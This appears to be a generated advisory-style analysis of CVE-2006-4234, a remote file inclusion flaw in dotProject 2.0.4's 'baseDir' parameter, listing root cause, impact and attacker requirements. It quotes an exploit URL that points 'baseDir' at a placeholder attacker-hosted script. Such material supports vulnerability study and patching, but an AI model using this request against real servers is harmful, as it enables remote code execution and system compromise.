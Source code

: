 Based on the provided content, here's an analysis of CVE-2006-4234:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) vulnerability.
*   The `baseDir` parameter in `classes/query.class.php` is not properly sanitized, allowing an attacker to include remote files.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application allows an attacker to include and execute a remote file by manipulating the `baseDir` parameter in the `query.class.php` script.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** Successful exploitation allows an attacker to execute arbitrary code on the server by including malicious scripts from a remote server. This can lead to complete system compromise, data theft, and other malicious activities.

**Attack Vectors:**

*   The attack vector is through a specially crafted HTTP request to the vulnerable `query.class.php` script.
*   The attacker manipulates the `baseDir` parameter to point to a malicious script on a remote server.

**Required Attacker Capabilities/Position:**

*   **Remote Access:** The attacker must be able to send HTTP requests to the target server.
*   **Knowledge of Vulnerable Parameter:** The attacker needs to know the vulnerable script (`classes/query.class.php`) and the vulnerable parameter (`baseDir`).
*   **Hosting of Malicious Script:** The attacker needs a server to host the malicious script that will be included and executed on the target server.

**Additional Information:**

*   The vulnerability affects dotProject version 2.0.4 and possibly earlier versions.
*   The exploit example provided shows how to use the `baseDir` parameter to include a remote file: `http://www.site.com/[dotProject_path]/classes/query.class.php?baseDir=[evil_scripts]`

This information is more detailed than the generic placeholder CVE description.